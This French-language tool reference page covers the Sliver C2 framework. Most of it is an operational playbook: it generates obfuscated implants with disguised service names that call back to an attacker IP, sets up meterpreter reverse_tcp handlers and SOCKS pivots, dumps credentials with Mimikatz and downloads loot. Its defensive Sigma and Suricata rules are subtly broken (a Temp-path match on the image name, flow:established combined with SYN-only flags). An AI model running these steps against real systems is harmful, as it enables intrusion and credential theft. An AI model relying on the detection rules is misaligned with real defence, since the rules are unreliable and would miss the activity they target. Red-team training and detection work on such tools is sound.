

# Sliver — C2 & Post-Exploitation

> [!info] **En 1 phrase**
> Sliver est un framework C2 open-source écrit en Go, pensé comme un remplaçant moderne de Cobalt Strike : implants compilés, listeners HTTPS/DNS/mTLS/WireGuard, sessions/beacons et post-exploitation extensible.

---

## Overview

| Champ | Détail |
|---|---|
| **Type d'outil** | Framework de C2 (Command & Control) et de post-exploitation |
| **Langage** | Go (server, client et implants cross-compilés) |
| **Plateformes** | Server/client : Linux, macOS, Windows ; implants : Windows, Linux, macOS |
| **Licence** | GPL-3.0 |
| **Développeur** | BishopFox |
| **Dernière version** | v1.7.5 |
| **Déployé par** | Binaires statiques (server + client), service système optionnel |
| **Cas d'usage principal** | Post-compromission : C2 fiable, furtif et red team moderne |
| **MITRE ATT&CK** | Logiciel identifié : **S0633** |

---

## Concept

Sliver sert à générer des **implants** (agents compilés nativement en Go) et à contrôler des **sessions** à distance via un serveur de commande & contrôle. Contrairement à Metasploit, il n'exploite pas de vulnérabilités : il est utilisé après une compromission initiale (dropper, phishing, serveur d'exploitation) pour obtenir un accès fiable et difficile à détecter.

Ses forces : implants statiques cross-compilés (Windows, Linux, macOS), trafic **HTTPS/DNS/mTLS/HTTP/WireGuard**, sessions interactives ou **beacons** (requêtes périodiques), commandes post-exploitation (shell, téléchargement, port forward, socks5, pivots) et interopérabilité avec Metasploit (`msf`). La configuration distingue un **serveur** (`sliver-server`) et un **client** (`sliver`) authentifié par clés d'opérateur. Il gagne du terrain en red team car plus moderne et moins profilé que MSF : communication chiffrée par défaut (mTLS/WireGuard) et binaires statiques réduisant la dépendance à l'environnement cible.


---

## Concepts fondamentaux

| Concept | Explication |
|---|---|
| Server | Processus `sliver-server` qui héberge les listeners, gère les implants et la base de sessions. |
| Client | Console `sliver` connectée au server, authentifiée par une clé d'opérateur. |
| Implant | Binaire compilé à la demande (`generate`) selon OS/cible et protocole C2 choisi. |
| Session | Lien interactif continu : chaque commande est exécutée immédiatement sur la cible. |
| Beacon | Implant « à impulsion » : se manifeste à intervalle régulier (`--interval`) avec un aléa (`--jitter`). |
| Listener | Canal d'écoute côté serveur : `--http`, `--https`, `--mtls`, `--dns`, `--wg`, `--tcp-pivot`. |
| Opérateur | Utilisateur authentifié du client (clés X25519) ; le server chiffre tout avec les pairs. |
| Armory | Dépôt d'extensions/plugins Sliver (outils, scripts, configurations). |
| Pivot | Relais passant par une session compromise pour atteindre le réseau interne. |
| sliver-py | Client Python de l'API gRPC pour automatiser le pilotage de Sliver. |

---

## Installation

### Linux / macOS

```bash
# Script officiel
curl -sL https://sliver.sh/install | sudo bash

# Ou installation manuelle
wget https://github.com/BishopFox/sliver/releases/latest/download/sliver-server_linux
chmod +x sliver-server_linux && sudo mv sliver-server_linux /usr/local/bin/sliver-server
sudo sliver-server install     # installe le service système
sudo systemctl enable --now sliver
sliver                          # ouvre le client connecté au serveur local
```

### Windows

```powershell
# Télécharger le binaire depuis les releases GitHub (ex. sliver-server_windows.exe)
.\sliver-server_windows.exe install   # installe le service
.\sliver-server_windows.exe
```

> [!warning] Prérequis & problèmes potentiels
> - Le premier lancement du server génère une **clé d'opérateur** et une paire de certificats : les conserver précieusement.
> - L'installation du service système nécessite des droits administrateur.
> - Les commandes `generate` produisent de gros binaires (Go) : un implant Windows peut dépasser 10 Mo avant compilation avec `-e` (obfuscation).

---

## Configuration

La configuration se fait principalement dans la console client : choix du protocole C2, génération des implants, démarrage des listeners.

| Paramètre | Rôle | Valeur possible | Impact | Exemple |
|---|---|---|---|---|
| `--mtls <ip:port>` | C2 chiffré par certificats mTLS | `10.10.14.5:8888` | Fiable, certs auto-signés | `generate --mtls 10.10.14.5:8888` |
| `--http(s) <ip:port>` | C2 sur HTTP(S) standard | `10.10.14.5:443` | Se fond dans le web | `generate --http 10.10.14.5:443` |
| `--dns <domaine>` | C2 par requêtes DNS | `d1.example.com` | Furtif, lent | `generate --dns d1.example.com` |
| `--wg <ip:port>` | C2 par WireGuard (UDP) | `10.10.14.5:53` | Peu de trafic, NAT | `generate --wg 10.10.14.5:53` |
| `--interval <s>` | Fréquence des beacons | `60` | Furtivité vs réactivité | `generate beacon --interval 60` |
| `--jitter <%>` | Aléa ajouté à l'intervalle | `25` | Désync des modèles | `generate beacon --jitter 25` |
| `--os` / `--arch` | Plateforme et architecture cible | `windows/amd64` | Compatibilité implant | `--os windows --arch amd64` |

---

## Architecture interne

Le `sliver-server` (Go) expose une API gRPC locale (et en réseau via les clés d'opérateur). Le client `sliver` est un front-end de cette API. Les implants sont compilés dynamiquement par le server (Go cross-compilation) selon les options demandées : protocole, plateforme, format (exe, shared, raw, service), évasion.

Le trafic est chiffré de bout en bout : mTLS utilise des certificats générés par le server ; WireGuard embarque une interface `wg0` côté serveur ; HTTP(S) et DNS utilisent des schémas de requêtes discrètes. Le server conserve les sessions dans une base locale et peut être piloté à distance (`sliver --remote`) ou par scripts (sliver-py).



---

## Commandes

### Commandes principales

| Commande | Effet |
|---|---|
| `generate [beacon] --<proto> <ip:port>` | Compile un implant session ou beacon (mTLS/HTTPS/DNS/WG) |
| `listeners --https 443 --mtls 8888 --dns <domaine>` | Démarre les listeners |
| `sessions` / `beacons` | Liste les sessions ou beacons actifs |
| `use <id>` / `interactive <id>` | Sélectionner une session / convertir un beacon en session |
| `shell` | Ouvre un shell interactif sur la session |
| `download` / `upload` | Transférer des fichiers depuis/vers la cible |
| `portfwd add -r 127.0.0.1:3389` | Port forward local vers la cible |
| `socks5 start` | Proxy SOCKS5 via la session |
| `pivots add tcp --lhost <ip> --lport <port>` | Crée un listener de pivot vers le réseau interne |
| `msf -p <payload>` | Tunnel vers un payload Metasploit (interop) |
| `extensions install` / `load <nom>` | Installe et charge des extensions Go (Mimikatz, Sharp…) |
| `jobs` / `kill-session <id>` | Tâches de fond / fin d'une session |

---

## Options et flags

| Option | Description | Exemple | Niveau |
|---|---|---|---|
| `generate --mtls <ip:port>` | Implant session mTLS | `generate --mtls 10.10.14.5:8888` | Basic |
| `--os <os>` | Plateforme cible | `--os windows` | Basic |
| `--arch <arch>` | Architecture cible | `--arch amd64` | Basic |
| `--name <nom>` | Nom du binaire | `--name svc.exe` | Basic |
| `--save <chemin>` | Dossier de sortie | `--save /tmp/` | Basic |
| `-e` | Obfuscation de l'implant | `generate -e` | Intermediate |
| `--skip-symbols` | Suppression des symboles (Go) | `--skip-symbols` | Intermediate |
| `generate beacon` | Implant beacon (impulsions) | `generate beacon --mtls ...` | Intermediate |
| `--interval <s>` | Intervalle des beacons | `--interval 60` | Intermediate |
| `--jitter <%>` | Aléa des beacons | `--jitter 25` | Intermediate |
| `--http <ip:port>` / `--https <ip:port>` | C2 web | `--http 10.10.14.5:443` | Advanced |
| `--dns <domaine>` | C2 DNS | `--dns d1.example.com` | Advanced |
| `--wg <ip:port>` | C2 WireGuard | `--wg 10.10.14.5:53` | Advanced |
| `--format service` | Implant en service Windows | `--format service` | Advanced |
| `armory install <plugin>` | Installer un plugin armory | `armory install sharp-hound` | Expert |

> [!tip] Options les plus utiles au quotidien
> `generate --mtls <ip:port> --os windows --arch amd64 -e --skip-symbols` ; `listeners --https 443 --mtls 8888` ; `sessions` puis `use <id>` et `shell`.

---

## Exemples pratiques

### Beginner

```bash
# 1. Ouvrir la console puis démarrer un listener mTLS
sliver
listeners --mtls 10.10.14.5:8888
# 2. Générer un implant Windows simple et le livrer sur la cible
generate --mtls 10.10.14.5:8888 --os windows --arch amd64 --name agent.exe --save /tmp/
# 3. Attendre la session puis ouvrir un shell
sessions
use <session-id>
shell
```

### Intermediate

```bash
# Implant beacon discret avec évasion
generate beacon --mtls 10.10.14.5:8888 --os linux --arch amd64 -e --skip-symbols \
  --interval 60 --jitter 25 --name cache-updater
# Convertir le beacon en session interactive quand nécessaire
beacons
interactive <beacon-id>
```

### Advanced

```bash
# C2 HTTPS avec port 443, binaire obfusqué et sans symboles
generate --https 10.10.14.5:443 --os windows --arch amd64 -e --skip-symbols \
  --name update.exe --save /tmp/
# Vérifier le listener et la session
listeners
sessions
```

### Expert

```bash
# Interopérabilité : tunnel Metasploit via la session Sliver, puis pivot SOCKS5
use <session-id>
msf -p windows/x64/meterpreter_reverse_tcp --lhost 10.10.14.5 --lport 4444
socks5 start --host 127.0.0.1 --port 1080   # proxychains nmap -sT -Pn 10.10.20.0/24
```

---

## Workflow complet (scénario pas à pas)

1. **Étape 1 — Lancer le serveur** : `sliver` (premier lancement → clé d'opérateur générée, à conserver pour les clients distants).
2. **Étape 2 — Démarrer les listeners** : `listeners --mtls 10.10.14.5:8888 --https 10.10.14.5:443`.
3. **Étape 3 — Générer l'implant** : `generate --mtls 10.10.14.5:8888 --os windows --arch amd64 -e --skip-symbols --name legit-svc.exe` — le binaire est écrit dans `~/.sliver-client/` (utilise `--save` pour choisir le dossier).
4. **Étape 4 — Livrer et exécuter** l'implant sur la cible (dropper, macro, exploitation web…).
5. **Étape 5 — Récupérer la session** — `sessions` ; sélectionner avec `use <id>` ; vérifier `info`.
6. **Étape 6 — Post-exploitation** : `shell`, `download C:\Windows\Temp\dump.zip ./loot/`, `portfwd add -r 127.0.0.1:445`, et interop MSF : `msf -p windows/x64/meterpreter_reverse_tcp`.

---

## Scénarios avancés

### Scénario 1 : C2 discret avec beacons et WireGuard

Remplacer les sessions continues par des beacons chiffrés en WireGuard pour un trafic minimal.

```bash
# 1. Le serveur conserve la paire de clés WireGuard (cf. docs Sliver)
# 2. Générer un implant beacon en WireGuard
generate beacon --wg 10.10.14.5:53 --os linux --arch amd64 -e --skip-symbols \
  --interval 60 --jitter 30 --name cache-svc
# 3. Démarrer le listener WireGuard puis convertir le beacon en session quand nécessaire
listeners --wg 10.10.14.5:53
beacons
interactive <beacon-id>
```

### Scénario 2 : Pivoter vers le réseau interne via SOCKS5 et Metasploit

Utiliser la session compromise comme relais pour atteindre des hôtes non routables.

```bash
# 1. Démarrer un proxy SOCKS5 à travers la session
use <session-id>
socks5 start --host 127.0.0.1 --port 1080   # proxychains nmap -sT -Pn 10.10.20.0/24
# 2. Pivot TCP pour des implants supplémentaires, puis handler MSF via la session
pivots add tcp --lhost 10.10.14.5 --lport 9898
msf -p windows/x64/meterpreter_reverse_tcp --lhost 10.10.14.5 --lport 4444
# 3. Transférer les artefacts (upload/download) et consigner le loot
```

### Scénario 3 : Post-exploitation Windows étendue (extensions et assemblys)

```bash
# 1. Dump d'identifiants via une extension Mimikatz
extensions install mimikatz
extensions load mimikatz
mimikatz lsadump::sam
# 2. Exécuter un .NET assembly (SharpHound…) en mémoire et exporter l'output
execute-assembly /opt/SharpHound.exe --CollectionMethods All
download /tmp/results.json ./loot/
```

---

## Cybersecurity use cases

| Phase | Utilisation |
|---|---|
| Compromission initiale | Livraison de l'implant par dropper/phishing (pas d'exploits intégrés) |
| C2 | Sessions/beacons HTTPS, mTLS, DNS, WireGuard selon le réseau |
| Post-exploitation | Shell, transfers, injections d'assembly, extensions |
| Mouvement latéral | Pivots TCP, SOCKS5, port forwarding |
| Exfiltration | `download` de fichiers via la session |

---

## MITRE ATT&CK

| Tactique | Technique / Sub-technique | ID | Raison | Détection | Mitigation |
|---|---|---|---|---|---|
| Execution | Native API | T1106 | Implant Go réalisant des appels système directs | EDR comportemental | Application control |
| Execution | Shared Modules | T1129 | Chargement d'assemblys (`execute-assembly`) | EDR, Sysmon | Application control |
| Persistence | Registry Run Keys / Startup Folder | T1547.001 | Persistance via extensions/scripts | Surveillance clés Run, autoruns | Durcissement clés |
| Lateral Movement | Remote Services | T1021 | Pivots et téléchargement d'implants secondaires | Logs services, EDR | Moindre privilège |
| Command and Control | Application Layer Protocol: Web Protocols | T1071.001 | Listeners HTTP(S) | Analyse flux HTTP | Filtrage egress |
| Command and Control | Encrypted Channel: Asymmetric Cryptography | T1573.002 | mTLS et WireGuard | Analyse des flux chiffrés | Egress contrôlé |
| Command and Control | DNS | T1071.004 | Listener DNS discret | Analyse DNS | Egress DNS contrôlé |
| Command and Control | Proxy | T1090 | SOCKS5 et pivots internes | Surveillance proxy, flux pairs | Segmentation |
| **Software ID** | Sliver | S0633 | Identifiant logiciel MITRE de l'outil | — | — |

> [!note] Sliver dispose d'un identifiant logiciel MITRE : **S0633**.

---

## Defensive Security

### Signes observables

| Indicateur | Détail |
|---|---|
| Binaire Go statique non signé dans un dossier temporaire | YARA (empreinte Go, chaînes `sliver`), contrôle de signature des processus |
| HTTP(S)/DNS sortants réguliers vers un C2 | Analyse des TTP (DNS tunnels, mTLS avec certs auto-signés), supervision des flux sortants longs |
| Binaire obfusqué `-e` + injection de threads | EDR comportemental (syscalls inhabituels) |
| Persistance : Run, services, scheduled tasks | `sc query`, autoruns, contrôle des tâches planifiées |
| Trafic chiffré type WireGuard/mTLS | Restreindre les ports sortants, blocage DNS, hardening PowerShell et AMSI |

### Règles de détection (Sigma / Suricata / Snort / YARA)

```yaml
# Exemple Sigma — binaire Go non signé depuis un dossier temporaire (à adapter)
title: Suspicious Sliver Implant Execution
status: experimental
description: Exécution d'un binaire Go depuis un répertoire temporaire (indicateur Sliver)
logsource:
  category: process_creation
  product: windows
detection:
  selection:
    Image|endswith:
      - '\Temp\'
    Description|contains: 'Sliver'
  condition: selection
level: high
```

```bash
# Exemple Suricata — connexion HTTPS longue et régulière vers un C2 (à adapter)
alert tcp $HOME_NET any -> $EXTERNAL_NET 443 (msg:"Potential Sliver HTTPS beaconing"; flow:established; flags:S; threshold:type both, track by_src, count 10, seconds 300; sid:1000005; rev:1;)
```

```yaml
# Exemple YARA — signature des binaires Go Sliver (à adapter)
rule Sliver_Go_binary_example {
  meta:
    description = "Exemple de détection de binaires Go à signature Sliver"
  strings:
    $a = "sliver" ascii wide
    $b = "Implant is a beacon" ascii wide
    $c = "github.com/bishopfox" ascii wide
  condition:
    any of them
}
```

---

## Automatisation

Sliver peut être piloté par scripts via **sliver-py** (client Python de l'API gRPC) : génération d'implants, gestion de sessions et exécution de commandes de façon reproductible.

```bash
# Installer le client Python
pip install sliver-py
```

```python
# Exemple conceptuel : lister les sessions avec sliver-py
# from sliver import SliverClient
# client = SliverClient(); client.connect()
# for s in client.sessions(): print(s.id, s.name)
```

> [!note] À vérifier
> Les méthodes exactes de sliver-py évoluent avec les versions : consulter la documentation officielle avant usage en production.

---

## Output et parsing

Les commandes Sliver renvoient des sorties texte structurées dans la console ; sliver-py expose des objets JSON sérialisables parsables par scripts.

```bash
# Récupérer les sessions au format exploitable (conceptuel)
sliver --json sessions
```

```python
# from sliver import SliverClient
# client = SliverClient(); client.connect()
# for s in client.sessions(): print(s.name, s.hostname, s.platform)
```

---

## Intégrations

```text
Compromission initiale → implant Sliver → session/beacon → post-exploitation → pivot
Sliver ↔ Metasploit (msf) ↔ extensions (Mimikatz, SharpHound) ↔ armory (plugins)
```

- [[Tools| Outils]]
- [[Outil - Metasploit| Metasploit]]
- [[Outil - Ligolo-ng| Ligolo-ng]]
- [[Outil - Chisel| Chisel]]
- [[Outil - Covenant| Covenant]]
- [[Outil - Havoc| Havoc]]
- [[Outil - Mythic| Mythic]]
- [[Outil - PowerShell Empire| PowerShell Empire]]
- [[Outil - Mimikatz| Mimikatz]]
- [[Techniques/Pivoting et Tunneling| Pivoting et Tunneling]]
- [[Techniques/Reverse Shells| Reverse Shells]]

---

## Alternatives

| Outil | Avantages | Inconvénients | Cas d'usage |
|---|---|---|---|
| Sliver | Go, cross-platform, beacons, mTLS/WG | Moins de modules intégrés qu'Empire | Engagement long, red team moderne |
| Cobalt Strike | Mature, très complet | Commercial, très profilé | Red team corporate |
| Empire | Modules PowerShell riches | Agents PowerShell détectables | Post-exploitation Windows/AD |
| Covenant | GUI web .NET | Pas de release officielle | Post-exploitation Windows |
| Mythic | Modulaire, web | Lourd (Docker) | Opérations longues |
| Havoc | Implant C/C++ natif, GUI | Repo archivé | Alternative Cobalt Strike |

> **Quand utiliser Sliver plutôt qu'un autre ?** Quand on privilégie la furtivité (chiffrement par défaut, beacons) et la portabilité (implants statiques Go cross-compilés) sur une diversité de modules prêts à l'emploi.

---

## Performance

- Implants Go statiques : chargement rapide, aucune dépendance à l'environnement cible (pas de .NET ni de Python requis).
- Beacons : trafic réseau minimal et régulier (intervalle + jitter configurables) ; le server Go gère de nombreuses sessions concurrentes.
- L'obfuscation `-e` augmente le temps de compilation ; prévoir un VPS avec 512 Mo-1 Go de RAM pour de petites opérations.

---

## Troubleshooting

### Common problems

#### Problème : l'implant ne se connecte pas

- **Cause** : mauvais protocole/port, IP listener non joignable par la cible, firewall.
- **Solution** : vérifier `listeners`, tester `nc -v <ip> <port>` depuis la cible, utiliser l'IP VPN vue par la cible.
- **Vérification** : l'implant apparaît dans `sessions` ou `beacons`.

#### Problème : le beacon ne devient jamais interactif

- **Cause** : intervalle trop long ou cible hors ligne.
- **Solution** : attendre le prochain check-in, réduire `--interval`, vérifier la connectivité.
- **Vérification** : `beacons` montre un `last checkin` récent.

#### Problème : le client distant ne se connecte pas

- **Cause** : clé d'opérateur absente ou mauvaise, port gRPC non exposé.
- **Solution** : générer une nouvelle clé opérateur côté server, ouvrir le port, utiliser `sliver --remote`.
- **Vérification** : la console client se connecte et affiche le server.

#### Problème : l'assembly ne s'exécute pas sur Windows

- **Cause** : dépendances .NET manquantes ou exécution bloquée par EDR.
- **Solution** : vérifier le framework cible de l'assembly, tester en lab, combiner avec `--skip-symbols`/`-e`.
- **Vérification** : la sortie de `execute-assembly` est renvoyée dans la session.

---

## Sécurité de l'outil

- **Chiffrement** : mTLS (certificats générés par le server), WireGuard (interface `wg0`) et TLS pour HTTP(S) : trafic C2 chiffré par défaut.
- **Authentification** : les opérateurs s'authentifient par clés X25519 ; protéger les fichiers de clés (`.sliver-client`, `.sliver`).
- **Implants** : l'obfuscation `-e` et `--skip-symbols` réduisent la détection statique mais n'évitent pas les EDR comportementaux.
- **Logs** : sessions et artefacts stockés côté server : chiffrer le disque et restreindre l'accès aux fichiers de config.
- **Usage légal** : uniquement dans le cadre d'engagements autorisés.

---

## Limitations

- N'exploite pas de vulnérabilités : nécessite une compromission initiale (dropper, phishing, serveur d'exploitation).
- Binaires volumineux (Go) : l'implant de base peut être lourd pour des contextes d'injection restreints.
- La furtivité des beacons dépend de la configuration (intervalle, jitter) et de la surveillance du réseau cible.
- L'évasion totale (AV/EDR) n'est pas garantie : valider les implants en lab avant engagement.
- Extensions/armory dépendent de la communauté : qualité variable, à tester.

---

## Cheatsheet

```bash
# Server + client
sliver-server          # ou sudo systemctl start sliver
sliver                 # console client local
# Listeners
listeners --https 443 --mtls 8888 --dns d1.example.com
# Implants
generate --mtls 10.10.14.5:8888 --os windows --arch amd64 -e --skip-symbols --name legit-svc.exe
generate beacon --mtls 10.10.14.5:8888 --os linux --arch amd64 --interval 60 --jitter 25
# Sessions/beacons
sessions ; beacons ; use <id> ; interactive <id>
# Post-exploitation
shell ; download <remote> <local> ; upload <local> <remote>
portfwd add -r 127.0.0.1:3389 ; socks5 start ; pivots add tcp --lhost <ip> --lport <port>
execute-assembly /opt/SharpHound.exe --CollectionMethods All
msf -p windows/x64/meterpreter_reverse_tcp
# Extensions + nettoyage
extensions install mimikatz ; extensions load mimikatz
kill-session <id> ; jobs
```

---

## Quick reference

| | |
|---|---|
| **À quoi sert-il ?** | Framework C2 moderne : implants compilés (Go), sessions/beacons, post-exploitation |
| **Quand l'utiliser ?** | Post-compromission longue : red team, engagements où la furtivité prime |
| **Commande principale** | `sliver` → `generate --mtls <ip:port> --os windows` → `sessions` |
| **Alternative principale** | Cobalt Strike (mature, commercial) ou Empire (PowerShell) |
| **Concepts importants** | Implant, beacon, session, listener, opérateur, pivot, armory |
| **Liens associés** | [[Outil - Metasploit\| Metasploit]] · [[Outil - Ligolo-ng\| Ligolo-ng]] · [[Outil - Chisel\| Chisel]] |

---

## Détection & Défense

> Les signes observables, règles Sigma/Suricata/YARA et défenses détaillées figurent dans la section **Defensive Security** ci-dessus.

| Rapide | Réponse |
|---|---|
| Binaire Go non signé dans Temp/ | Bloquer/analyser, YARA `sliver` |
| Check-in HTTP(S)/DNS réguliers | Corréler les flux sortants, bloquer le domaine/IP |
| Persistance récente (Run, services, tasks) | `sc query`, autoruns, triage |

---

## Tips & Pièges

> [!tip] **Tips**
> - Utilise des **beacons** plutôt que des sessions continues pour un C2 discret : trafic régulier faible (configurable via `--interval`/`--jitter`).
> - Combine `-e` (obfuscation) et `--skip-symbols` pour réduire la détection AV statique.
> - Garde précieusement la clé d'opérateur générée au premier lancement : elle est nécessaire pour reconnecter des clients distants.
> - Utilise `--save` pour contrôler où sont écrits les binaires et éviter de les mélanger aux fichiers de config.

> [!warning] **Pièges**
> - Ne lance jamais `generate` sans connaître la plateforme et l'arch de la cible : un implant Windows sur une VM Linux ne répondra jamais.
> - L'IP du listener doit être celle vue par la cible (`--mtls <IP>` = IP VPN de l'attaquant, pas `localhost`).
> - Sliver n'exploite pas de vulnérabilités : il faut une compromission initiale (dropper, phishing) pour livrer l'implant.
> - Un implant DNS est lent et peut être détecté si le DNS sortant est analysé : réserver aux réseaux restrictifs.

---

## References

### Official

- GitHub officiel : https://github.com/BishopFox/sliver
- Documentation : https://sliver.sh/docs
- Releases : https://github.com/BishopFox/sliver/releases

### Security references

- MITRE ATT&CK — Logiciel S0633 : https://attack.mitre.org/software/S0633/
- MITRE ATT&CK — Application Layer Protocol : https://attack.mitre.org/techniques/T1071/

### Community

- Cheatsheet Sliver (HackTricks) : https://book.hacktricks.xyz/redteam/pentesting-methodology/sliver-c2
- Sliver Wiki : https://github.com/BishopFox/sliver/wiki

---

**Liens :** [[Tools| Outils]] · [[Techniques/Pivoting et Tunneling| Pivoting et Tunneling]] · [[Techniques/Reverse Shells| Reverse Shells]] · [[Techniques/Privilege Escalation Windows| PrivEsc Windows]]
